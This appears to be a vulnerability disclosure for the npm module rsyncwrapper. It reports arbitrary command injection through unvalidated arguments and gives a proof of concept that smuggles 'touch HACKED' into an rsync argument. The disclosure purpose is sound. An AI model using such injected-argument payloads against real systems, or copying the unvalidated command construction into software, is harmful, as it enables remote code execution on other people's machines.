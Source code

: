 # :bug: Description

The `rsyncwrapper` module is vulnerable against `RCE` since a command is crafted using `user inputs` not validated and then executedading to `arbitrary command injection`

# :fire: POC

1. Create the following PoC file:

```js
// poc.js
var rsync = require('rsyncwrapper');
rsync({privateKey:'', src:'', dest:'', args:['test; touch HACKED; #']}, function(e){console.log(e)})

```
2. Check there aren't files called `HACKED` 
3. Execute the following commands in another terminal:

```bash
npm i rsyncwrapper # Install affected module
node poc.js #  Run the PoC
```
4. Recheck the files: now `HACKED` has been created
